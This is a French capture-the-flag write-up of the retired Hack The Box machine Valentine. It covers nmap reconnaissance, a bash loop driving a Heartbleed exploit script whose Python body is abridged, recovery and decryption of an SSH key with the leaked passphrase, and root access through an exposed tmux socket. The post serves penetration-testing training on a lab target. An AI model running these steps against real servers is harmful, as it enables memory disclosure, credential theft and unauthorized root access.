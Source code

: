
---
title: "Valentine.htb version 1 — Hack The Box"
date: 2025-08-04
draft: false
description: "Writeup complet de la machine Valentine.htb (retired), incluant Heartbleed, extraction de clé SSH et escalade de privilèges via tmux."
tags: ["HTB", "CTF", "Heartbleed", "Privilege Escalation", "Linux"]
---

> Machine retirée de Hack The Box — difficulté *Easy*  
> Auteur : egre55

---

## 🧭 Reconnaissance

Scan initial :

```bash
nmap -sC -sV -p- valentine.htb
```

Ports ouverts :

- 22/tcp → OpenSSH 6.6.1
- 80/tcp → Apache 2.2.22 (Ubuntu)

Le site web révèle une interface avec des champs `encode`/`decode`, probablement base64.

```bash
curl http://valentine.htb
```

La page `/dev` contient deux fichiers intéressants :

- `hype_key`
- `notes.txt`

## 🔎 Analyse initiale

Le fichier `notes.txt` donne un indice sur l’encodeur/décodeur :

> Don't use the decoder/encoder until any of this is done.

Cela laisse penser que des failles côté client sont en jeu, mais sans encoder JS actif, rien d’immédiat.

Le fichier `hype_key` semble être un dump hexadécimal d'une clé SSH privée (confirmé par `file`).

```bash
file hype_key
# ASCII text, with very long lines
```

Contenu analysé : ce n’est pas une image, ni du base64. Probablement une clé SSH.

---

## 💉 Exploitation — Heartbleed (CVE-2014-0160)

Le port 443 est actif, et un scan `nmap` confirme la vulnérabilité Heartbleed :

```bash
nmap -p 443 --script ssl-heartbleed valentine.htb
```

Résultat :

```
State: VULNERABLE
Risk factor: High
```

### 🔧 Script utilisé : `heartbleed_full.sh`

```bash
#!/bin/bash
# Usage: ./heartbleed_full.sh
# Ce script exécute plusieurs fois l’exploit Heartbleed et extrait les chaînes ASCII

read -p "🔢 Nombre d'itérations Heartbleed à exécuter : " count
mkdir -p dumps
rm -f dumps/out_*.txt ascii_concatenated.txt

for i in $(seq -f "%03g" 1 $count); do
    echo "➡️  [Iteration $i]..."
    python2 heartbleed-exploit.py valentine.htb --output dumps/out_$i.txt --ascii
done

echo -e "
🧪 Extraction des chaînes ASCII avec strings..."
strings dumps/out_*.txt | grep -E '[[:print:]]{4,}' | sort -u > ascii_concatenated.txt
echo -e "
✅ Terminé : toutes les chaînes ASCII concaténées dans ascii_concatenated.txt"
```

### 🐍 Script Python : `heartbleed-exploit.py`

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# Heartbleed exploit par Martial Puygrenier adapté pour extraire ASCII

# (… contenu abrégé, voir pièce jointe pour le fichier complet …)
```

Exécution du script :

```bash
./heartbleed_full.sh
```

Résultat : dans `ascii_concatenated.txt`, on récupère :

```
heartbleedbelievethehype
```

Mot de passe pour la clé SSH.

---

## 🔓 Clé SSH — Récupération

Convertir le fichier `hype_key` en binaire :

```bash
xxd -r -p hype_key hype_key.pem
```

Déchiffrer avec OpenSSL :

```bash
openssl rsa -in hype_key.pem -out hype_key_decrypted.pem
```

Utilisation :

```bash
ssh -i hype_key_decrypted.pem hype@valentine.htb
```

---

## 🚀 Escalade de privilèges

Une fois connecté en `hype`, on lance `linpeas.sh` :

```bash
./linpeas.sh
```

Ce dernier met en évidence une session `tmux` lancée en tant que root :

```
/usr/bin/tmux -S /.devs/dev_sess
```

On vérifie avec :

```bash
ls -la /.devs/
tmux -S /.devs/dev_sess attach
```

Bingo : une session root est accessible.

---

## 🏁 Flags

```bash
cat /home/hype/user.txt
cat /root/root.txt
```

---

## 📎 Pièces jointes

- [heartbleed_full.sh](/files/valentine/heartbleed_full.sh)
- [heartbleed-exploit.py](/files/valentine/heartbleed-exploit.py)

## ##🔚 Conclusion

Cette machine montre l’impact réel d’une vulnérabilité critique comme Heartbleed. Avec un peu de persévérance, on remonte jusqu’à une clé SSH, puis une élévation de privilèges via une session `tmux` oubliée.

---

> 🎯 Entraîne-toi à automatiser ce type d’exploitation, et n’oublie jamais d’examiner les résultats de `linpeas` en détail !
